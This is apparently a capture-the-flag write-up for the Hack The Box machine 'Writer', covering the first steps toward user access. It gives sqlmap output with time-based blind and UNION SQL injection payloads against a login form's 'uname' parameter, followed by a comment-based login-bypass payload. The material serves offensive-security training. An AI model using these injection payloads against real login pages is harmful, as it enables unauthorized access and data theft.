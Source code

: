 ## Info 
### Credentiak 
 User | Password | Service | Note
------|----------|---------|------
kyle  |          |         |

### HTTP
- domain: `Writer.HTB`
- login page: `/administrative`

## Path
### User
1. Found `/administrative` has SQL Injection.
```
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: uname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=admin' AND (SELECT 3785 FROM (SELECT(SLEEP(5)))wVdK) AND 'vekP'='vekP&password=admin

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: uname=admin' UNION ALL SELECT NULL,CONCAT(0x71766a7171,0x647273715a44645a656a444341676c59677353484f4d4c6370686a614b634c4a6356496c44476c5a,0x716b766271),NULL,NULL,NULL,NULL-- -&password=admin
---
[16:14:36] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```
2. Use SQL Injection to login as `admin`.
```
uname=admin'-- -&password=admin
```
